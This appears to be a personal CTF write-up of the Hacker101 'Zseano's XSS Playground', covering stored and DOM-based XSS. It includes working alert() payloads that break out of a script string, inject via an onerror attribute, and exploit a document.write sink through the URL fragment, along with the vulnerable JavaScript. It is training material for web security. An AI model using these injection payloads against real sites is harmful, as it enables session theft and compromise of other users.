 ```yaml
---
title: (Portswigger/WebAcademy) - Zseano's XSS Playground
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-25 09:00:00 +0200
categories: [Web Application, Stored XSS]
tags: [Notes, Stored XSS, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
It's all about XSSes.
Hackerone CTF.

![picture 1](/assets/images/ee50e5cdb3119a1cc76da24f1a0cde54cc1ff4b8930f3e36a6dfd2721590bd8b.png)  

That's a lot of XSSes, now let's hunt.

## TOC

# Reflective

# Stored

Payload: `canary'"</>`

We get 2 matches (search for `canary`):

```html
                        <h6> <img src="guest.png" alt="profile" class="img-sm rounded-circle">
                          Guest
                          <small class="ml-4 text-muted"><i class="fas fa-star" style="background-color:yellow"></i> New comment!</small>
                        </h6>
                        canary'"<script>var commentContent='canary'&quot;';</script>
```

One entry is in the enclosed in `<script>` tags.
Another entry is outside the `<h6>` tags.

In both cases the single quotes are not escaped.

## Stored XSS in between script tags in the comment field

Payload:
```
' ; alert(window.location); var xyz=' 
```

If we drop a comment with the payload above we'll get XSS to trigger

![picture 2](/assets/images/349e5842175d5470b63942fda48a8f58c79048651688e788a8d0827f27fc8f62.png)  

This is the HTML
```html
<script>var commentContent='' ; alert(window.location); var xyz=' ';</script>
```

## Stored XSS outside script tags w/ script
If i enter something like
```html
<img src=x>
test
</img>
```

I end with `" test "`, so tags are stripped.


# DOM
## DOM-based XSS on Report User
We can report user using button entitled `Report User` which opens a form. 

Test payload: `<IMG SRC=x onmouseover=alert(1)>`

![picture 4](/assets/images/6a7eebf951033d8b85ae39b60ad8a27134f087046d4849573e0a6801cbd9d55f.png)

After blindly trying XSS and checking what's loaded on the page it's obvious that `img` has landed on page, but not the `onmouseover`. 

![picture 3](/assets/images/9e8a919c1ce4e0e14c1cdfc008fc14314fd488654b37272b05570853059b24a9.png)  

After checking the form it became obvious that value is loaded into DOM.

```html
<button type="button" class="btn btn-danger" onclick="reportUsera(document.getElementById('usernamea').value, document.getElementById('msgreport').value);" data-dismiss="modal">Report User</button>
```

```
)" onerror=alert(1) src="test(1
```

## DOM-based XSS on document.write sink
XSS Vuln exists in `custom.js`

```js
var hash = window.location.hash.substr(1);
var result = hash.split("&").reduce(function(e, t) {
    var n = t.split("=");
    return e[n[0]] = n[1],
    e
}, {});
var tracking = JSON.stringify(result);
var who = (tracking = JSON.parse(tracking)).who;
...SNIP...
1 == who.includes("zsh1") && document.write("<img src=/1x1.gif?" + decodeURI(who) + "></img>");
```

We can exploit the XSS.

```
https://7dcf5189685458a9eab3e7ebecf08303.ctf.hacker101.com/#who=zsh1%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```

This is the actual payload after the fragment starts:
```
#who=zsh1"><script>alert(1)</script>
```

![picture 1](images/36968f603d58e79f28b9e03b874c8a2966adf7c5fad9b6c48fbd1aaf2f060f94.png)  
